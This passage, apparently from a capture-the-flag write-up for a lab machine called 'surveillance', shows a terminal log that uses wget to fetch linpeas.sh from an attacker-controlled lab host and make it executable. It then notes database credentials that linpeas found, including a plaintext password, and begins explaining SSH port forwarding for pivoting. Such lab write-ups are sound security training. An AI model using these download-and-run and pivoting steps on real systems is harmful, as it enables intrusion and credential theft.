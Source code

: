 ```shell
matthew@surveillance:~$ wget http://10.10.14.35:8090/linpeas.sh 

--2024-02-22 10:17:13--  http://10.10.14.35:8090/linpeas.sh 

Connecting to 10.10.14.35:8090... connected. 

HTTP request sent, awaiting response... 200 OK 

Length: 853290 (833K) [text/x-sh] 

Saving to: ‘linpeas.sh’ 

  

linpeas.sh                              100%[============================================================================>] 833.29K   848KB/s    in 1.0s     

  

2024-02-22 10:17:16 (848 KB/s) - ‘linpeas.sh’ saved [853290/853290] 

  

matthew@surveillance:~$ ls 

linpeas.sh  user.txt 

matthew@surveillance:~$ chmod +x linpeas.sh 
```  

![database_username_pass](https://i.ibb.co/PxBSdcK/db-passwords.png)
Here linpeas is able to find a database username and and a database password, that may be interesting. 

![zoneminder_pass](https://i.ibb.co/rs1Z3WB/zoneminder-password.png)
Here linpeas is able to find the password ‘ZoneMinderPassword2023’, this could be the database password, and could be worth noting that down. 
![zoneminder_config](https://i.ibb.co/0jByxY7/zoneminder-config.png)
Linpeas is also able to find some configuration files of the database, we see that it is hosted locally (127.0.0.1) and is on port 8080.  We can then do a google search just to see what zonmidner is. https://zoneminder.com/. We find out that zoneminder is a monitoring software.  

Since we have access to a system within the local network, we can potentially use it as a pivot point for port forwarding, also known as port tunneling or SSH tunneling, to access services that are not directly accessible from outside the network. 

Here's how port forwarding works: 

    Set up an SSH Connection: First, you need to establish an SSH connection to a system within the local network that has access to the service you want to reach.  

